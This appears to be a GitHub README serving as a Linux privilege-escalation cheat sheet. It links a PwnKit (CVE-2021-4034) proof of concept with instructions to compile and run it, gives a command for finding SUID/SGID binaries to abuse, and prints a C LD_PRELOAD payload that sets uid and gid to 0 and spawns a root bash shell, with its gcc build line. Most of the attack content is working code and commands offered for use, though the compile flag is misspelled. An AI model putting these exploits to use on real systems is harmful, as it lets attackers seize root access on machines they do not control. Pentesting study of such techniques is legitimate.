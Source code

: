 <hr style="width:100%;text-align:left;margin-center:0">


## CVE-2021-4034

  - ### PwnKit Vulnerability
  - (from any user to root) inpolkit's pkexec, a SUID-root program that is installed by default on every major Linux distribution.
  - This vulnerability is an attacker's dream come true.
  - [cve-2021-4034-poc.c](https://github.com/Somchandra17/Privilege-Escalation-For-Linux/blob/main/cve-2021-4034-poc.c)
  - Just compile and run the above code 👆 with gcc
  - For more info you can read this [here](https://seclists.org/oss-sec/2022/q1/80)


<hr style="width:100%;text-align:left;margin-center:0">


## Exploitiing all the Binaries which have SUID and SGID bits set
  -To list all the binaries which have SUID and SGID buts set
  
```
find / -type f -perm -04000 -ls 2>/dev/null
```
  - after listing all the binaries check the exploits in [GTFOBins](https://gtfobins.github.io/) 

---

## Using LD_Preload
  - You can check if LD_Preload environment option is there or not by 
 
 ```
 sudo -l
 ```
 
  - If you can see this 👉 ``env_keep+=LD_Preload`` then the function is enabled.
  - This piece of code will spawn root shell ➡️ [shell.c](https://github.com/Somchandra17/Privilege-Escalation/blob/01f889492ff51414fa077a01fa538ecd5a0d4543/shell.c)

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

  - Compile it using GCC into a Shared Object file(.so)

```
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```
